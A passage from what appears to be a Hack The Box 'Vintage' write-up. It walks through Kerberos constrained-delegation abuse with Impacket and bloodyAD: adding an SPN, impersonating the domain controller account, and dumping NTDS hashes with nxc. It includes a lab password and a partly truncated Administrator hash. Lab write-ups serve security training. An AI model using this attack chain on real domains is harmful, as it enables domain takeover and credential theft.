[+] SVC_SQL added to DELEGATEDADMINS

getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"svc_sql":"Zer0the0ne"
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in svc_sql.ccache

export KRB5CCNAME=svc_sql.ccache
```
But at this point, if we try to impersonate with **svc_sql** we will have this error :

```bash
getST.py -spn cifs/dc01.vintage.htb -impersonate 'DC01$' -k -no-pass vintage.htb/'svc_sql'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Impersonating DC01$
[*] 	Requesting S4U2self
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Probably user svc_sql does not have constrained delegation permisions or impersonated user does not exist
```
This is because **svc_sql** don't have a valid **SPN** but we can add it with **c.neri**

```bash
export KRB5CCNAME=C.Neri.ccache

bloodyAD --host dc01.vintage.htb -d vintage.htb -k set object 'svc_sql' servicePrincipalName -v 'cifs/svc_sql'

[+] svc_sql's servicePrincipalName has been updated
```
Request a TGT again

```bash
getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"svc_sql":"REDACTED"
```
And now we will be able to impersonate

```bash
export KRB5CCNAME=svc_sql.ccache

getST.py -spn cifs/dc01.vintage.htb -impersonate 'DC01$' -k -no-pass vintage.htb/'svc_sql'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Impersonating DC01$
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in DC01$.ccache
```
```bash
nxc smb dc01.vintage.htb --use-kcache --ntds --user Administrator

SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\DC01$ from ccache
SMB         dc01.vintage.htb 445    dc01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         dc01.vintage.htb 445    dc01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc01.vintage.htb 445    dc01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:46...de:
```


If you have any questions, you can dm me on [twitter](https://x.com/ethicxz) or on discord at : 'ethicxz.'


